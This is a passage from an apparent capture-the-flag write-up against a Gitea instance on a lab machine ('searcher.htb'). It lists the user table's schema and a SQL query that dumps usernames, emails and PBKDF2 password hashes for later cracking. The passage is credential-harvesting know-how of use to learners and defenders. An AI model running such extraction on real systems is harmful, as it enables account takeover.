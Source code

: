 ```bash
| must_change_password           | tinyint(1)    | NO   |     | 0       |                |
| login_type                     | int           | YES  |     | NULL    |                |
| login_source                   | bigint        | NO   |     | 0       |                |
| login_name                     | varchar(255)  | YES  |     | NULL    |                |
| type                           | int           | YES  |     | NULL    |                |
| location                       | varchar(255)  | YES  |     | NULL    |                |
| website                        | varchar(255)  | YES  |     | NULL    |                |
| rands                          | varchar(32)   | YES  |     | NULL    |                |
| salt                           | varchar(32)   | YES  |     | NULL    |                |
| language                       | varchar(5)    | YES  |     | NULL    |                |
| description                    | varchar(255)  | YES  |     | NULL    |                |
| created_unix                   | bigint        | YES  | MUL | NULL    |                |
| updated_unix                   | bigint        | YES  | MUL | NULL    |                |
| last_login_unix                | bigint        | YES  | MUL | NULL    |                |
| last_repo_visibility           | tinyint(1)    | YES  |     | NULL    |                |
| max_repo_creation              | int           | NO   |     | -1      |                |
| is_active                      | tinyint(1)    | YES  | MUL | NULL    |                |
| is_admin                       | tinyint(1)    | YES  |     | NULL    |                |
| is_restricted                  | tinyint(1)    | NO   |     | 0       |                |
| allow_git_hook                 | tinyint(1)    | YES  |     | NULL    |                |
| allow_import_local             | tinyint(1)    | YES  |     | NULL    |                |
| allow_create_organization      | tinyint(1)    | YES  |     | 1       |                |
| prohibit_login                 | tinyint(1)    | NO   |     | 0       |                |
| avatar                         | varchar(2048) | NO   |     | NULL    |                |
| avatar_email                   | varchar(255)  | NO   |     | NULL    |                |
| use_custom_avatar              | tinyint(1)    | YES  |     | NULL    |                |
| num_followers                  | int           | YES  |     | NULL    |                |
| num_following                  | int           | NO   |     | 0       |                |
| num_stars                      | int           | YES  |     | NULL    |                |
| num_repos                      | int           | YES  |     | NULL    |                |
| num_teams                      | int           | YES  |     | NULL    |                |
| num_members                    | int           | YES  |     | NULL    |                |
| visibility                     | int           | NO   |     | 0       |                |
| repo_admin_change_team_access  | tinyint(1)    | NO   |     | 0       |                |
| diff_view_style                | varchar(255)  | NO   |     |         |                |
| theme                          | varchar(255)  | NO   |     |         |                |
| keep_activity_private          | tinyint(1)    | NO   |     | 0       |                |
+--------------------------------+---------------+------+-----+---------+----------------+
46 rows in set (0.01 sec)
```

To get some useful credentials we might interested only in few of such columns: lower_name, name, full_name, email, passwd, passwd_hash_algo and login_name. However, I rapidly discovered that the only useful columns are: name, email, passwd and passwd_hash_algo.
So, I made a query to retrieve them:

```bash
mysql> SELECT name, email, passwd, passwd_hash_algo FROM user;
+---------------+----------------------------------+------------------------------------------------------------------------------------------------------+------------------+
| name          | email                            | passwd                                                                                               | passwd_hash_algo |
+---------------+----------------------------------+------------------------------------------------------------------------------------------------------+------------------+
| administrator | administrator@gitea.searcher.htb | ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2 | pbkdf2           |
| cody          | cody@gitea.searcher.htb          | b1f895e8efe070e184e5539bc5d93b362b246db67f3a2b6992f37888cb778e844c0017da8fe89dd784be35da9a337609e82e | pbkdf2           |
+---------------+----------------------------------+------------------------------------------------------------------------------------------------------+------------------+
2 rows in set (0.00 sec)
```